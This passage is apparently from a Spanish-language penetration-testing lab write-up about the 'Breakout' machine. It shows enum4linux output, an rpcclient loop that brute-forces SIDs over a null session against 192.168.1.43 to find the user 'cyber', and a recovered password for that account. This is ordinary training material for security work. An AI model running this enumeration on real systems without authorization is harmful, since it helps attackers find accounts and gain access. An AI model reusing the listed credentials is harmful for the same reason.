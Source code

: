 ```bash
[I] Found new SID:
S-1-5-32

[I] Found new SID:
S-1-5-32

[I] Found new SID:
S-1-5-32

[I] Found new SID:
S-1-5-32

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\cyber (Local User)

[+] Enumerating users using SID S-1-5-21-1683874020-4104641535-3793993001 and logon username '', password ''

S-1-5-21-1683874020-4104641535-3793993001-501 BREAKOUT\nobody (Local User)
S-1-5-21-1683874020-4104641535-3793993001-513 BREAKOUT\None (Domain Group)

 ===============================( Getting printer info for 192.168.1.43 )===============================

No printers returned.


enum4linux complete on Thu Mar 21 11:47:39 2024
```

Enumeración manual

```bash
seq 1 5000 | xargs -P 50 -I {} rpcclient -U "" 192.168.1.43 -N -c "lookupsids S-1-22-1-{}" | grep -oP '.*User\\[a-z].*\s'
```

![Untitled](/assets/img/labECCPT/Pasted image 20240321120804.png)

Se identifica el usuario `cyber`. Disponemos de posibles credenciales válidas:

```bash
cyber:.2uqPEfj3D<P'a-3
```
